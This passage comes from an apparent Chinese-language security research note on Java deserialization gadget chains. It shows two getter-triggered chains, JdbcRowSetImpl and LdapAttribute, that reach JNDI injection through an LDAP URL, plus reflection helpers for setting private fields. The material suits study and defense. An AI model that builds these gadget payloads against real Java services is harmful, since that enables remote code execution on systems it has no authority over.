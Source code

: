 #### JdbcRowSetImpl#getDatabaseMetaData

**JDK原生可用**

```plain
JdbcRowSetImpl jdbcrowsetimpl = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);
```

这条链其实就是FastJson Jdbc链的另一种getter触发方式，效果同样是走到connect()中的lookup实现JNDI注入

由于组件序列化逻辑问题，**该链仅Rome可用**，原因详见后文

#### LdapAttribute#getAttributeDefinition

**JDK原生可用**

```plain
Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:13562");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```

此链效果：JNDI注入

